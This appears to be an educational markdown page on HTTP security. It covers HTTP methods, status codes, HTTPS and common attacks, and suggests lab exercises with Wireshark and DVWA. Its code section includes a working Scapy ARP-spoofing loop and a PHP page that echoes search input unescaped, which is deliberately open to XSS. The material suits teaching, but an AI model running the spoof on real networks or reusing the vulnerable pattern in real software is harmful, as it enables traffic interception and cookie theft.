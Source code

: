 ### Introduction to HTTP in Cybersecurity

**HTTP Overview**
- **HTTP (HyperText Transfer Protocol)** is the foundation of data communication on the World Wide Web. It's a protocol used for transferring web pages from servers to browsers.
- HTTP is stateless, meaning each request from a client to a server is independent.
- Standard HTTP runs over port 80, while HTTPS (HTTP Secure) runs over port 443.

**HTTP in Cybersecurity**
- **HTTP vulnerabilities** can be exploited to carry out various cyberattacks, making it a critical area of focus in cybersecurity.
- Common attacks include **Man-in-the-Middle (MitM)**, **Cross-Site Scripting (XSS)**, **SQL Injection**, and **Session Hijacking**.
- Understanding HTTP methods (GET, POST, PUT, DELETE) is essential, as they can be exploited in different ways.

### Key Concepts

#### 1. **HTTP Methods**
   - **GET**: Requests data from a specified resource. Can be cached and remains in the browser history.
   - **POST**: Submits data to be processed to a specified resource. More secure than GET as data is not stored in the browser history or URL.
   - **PUT**: Uploads a representation of the specified resource.
   - **DELETE**: Deletes the specified resource.

#### 2. **HTTP Status Codes**
   - Inform users about the result of their HTTP requests.
   - **200 OK**: The request was successful.
   - **404 Not Found**: The resource could not be found.
   - **500 Internal Server Error**: The server encountered an unexpected condition.

#### 3. **HTTPS**
   - An extension of HTTP with security features. It uses SSL/TLS to encrypt data transferred between the client and server, preventing eavesdropping and tampering.
   - Essential for protecting sensitive data, such as personal information, login credentials, and payment details.

### Common HTTP Vulnerabilities

1. **Man-in-the-Middle (MitM) Attack**
   - Occurs when an attacker intercepts communication between two parties to eavesdrop, steal, or alter data.
   - HTTPS helps prevent MitM attacks by encrypting the data.

2. **Cross-Site Scripting (XSS)**
   - Involves injecting malicious scripts into webpages viewed by other users.
   - Can be used to steal cookies, session tokens, or other sensitive information.

3. **SQL Injection**
   - Occurs when an attacker inserts malicious SQL code into a query through a form input or URL.
   - Can lead to unauthorized access to the database.

4. **Session Hijacking**
   - An attacker steals a user's session ID to impersonate them.
   - Can be mitigated by using HTTPS, secure cookies, and proper session management.

### Practical Examples

#### 1. **MitM Attack Simulation**
   - **Objective**: Demonstrate how an attacker can intercept HTTP traffic.
   - **Tool**: Wireshark or Ettercap
   - **Steps**:
     1. Set up a virtual environment with a victim and attacker machine.
     2. Use a tool like Wireshark to capture HTTP traffic between the victim and a website.
     3. Demonstrate how sensitive information can be intercepted.

#### 2. **Cross-Site Scripting (XSS) Demo**
   - **Objective**: Show how XSS works and its potential impact.
   - **Tool**: DVWA (Damn Vulnerable Web App)
   - **Steps**:
     1. Set up DVWA on a local server.
     2. Demonstrate how to inject a simple script into a form field.
     3. Show how the injected script can steal cookies or manipulate the webpage.

### Educational Resources

**Code Examples:**
1. **Basic HTTP Server in Python**:
   - Use Python's `http.server` module to create a simple HTTP server.
   - Demonstrate serving different HTTP methods and handling requests.

```python
from http.server import SimpleHTTPRequestHandler, HTTPServer

class MyHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.end_headers()
        self.wfile.write(b"Hello, world!")

server = HTTPServer(('localhost', 8080), MyHandler)
print("Starting server on http://localhost:8080")
server.serve_forever()
```

2. **MitM Attack Simulation Script**:
   - Python script using Scapy to perform a basic ARP spoofing attack.
   - **Note**: Only use this in a controlled environment with permission.

```python
from scapy.all import *

def spoof(target_ip, spoof_ip):
    packet = ARP(op=2, pdst=target_ip, hwdst=getmacbyip(target_ip), psrc=spoof_ip)
    send(packet, verbose=False)

while True:
    spoof("192.168.1.5", "192.168.1.1")
    spoof("192.168.1.1", "192.168.1.5")
    time.sleep(2)
```

3. **XSS Vulnerability Demonstration**:
   - Simple HTML page vulnerable to XSS for educational purposes.

```html
<!DOCTYPE html>
<html>
<body>
  <form action="search.php" method="GET">
    <input type="text" name="query">
    <input type="submit" value="Search">
  </form>
  <?php
    if (isset($_GET['query'])) {
        echo "Search results for: " . $_GET['query'];
    }
  ?>
</body>
</html>
